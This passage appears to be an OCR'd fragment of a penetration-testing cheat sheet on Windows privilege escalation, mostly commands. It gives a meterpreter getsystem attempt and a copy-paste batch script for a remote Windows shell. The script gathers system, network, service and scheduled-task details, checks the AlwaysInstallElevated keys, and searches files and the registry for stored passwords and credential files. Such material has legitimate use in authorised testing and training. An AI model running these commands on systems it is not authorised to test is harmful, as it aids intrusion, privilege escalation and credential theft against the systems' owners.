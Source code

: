     `whoami`

    `net user "%username%"`

-   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

-   No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).

     Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

         @echo --------- BASIC WINDOWS RECON ---------  > report.txt
         timeout 1
         net config Workstation  >> report.txt
         timeout 1
         systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
         timeout 1
         hostname >> report.txt
         timeout 1
         net users >> report.txt
         timeout 1
         ipconfig /all >> report.txt
         timeout 1
         route print >> report.txt
         timeout 1
         arp -A >> report.txt
         timeout 1
         netstat -ano >> report.txt
         timeout 1
         netsh firewall show state >> report.txt
         timeout 1
         netsh firewall show config >> report.txt
         timeout 1
         schtasks /query /fo LIST /v >> report.txt
         timeout 1
         tasklist /SVC >> report.txt
         timeout 1
         net start >> report.txt
         timeout 1
         DRIVERQUERY >> report.txt
         timeout 1
         reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
         timeout 1
         findstr /si password *.xml *.ini *.txt >> report.txt
         timeout 1
         reg query HKLM /f password /t REG_SZ /s >> report.txt
         timeout 1
         reg query HKCU /f password /t REG_SZ /s >> report.txt
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1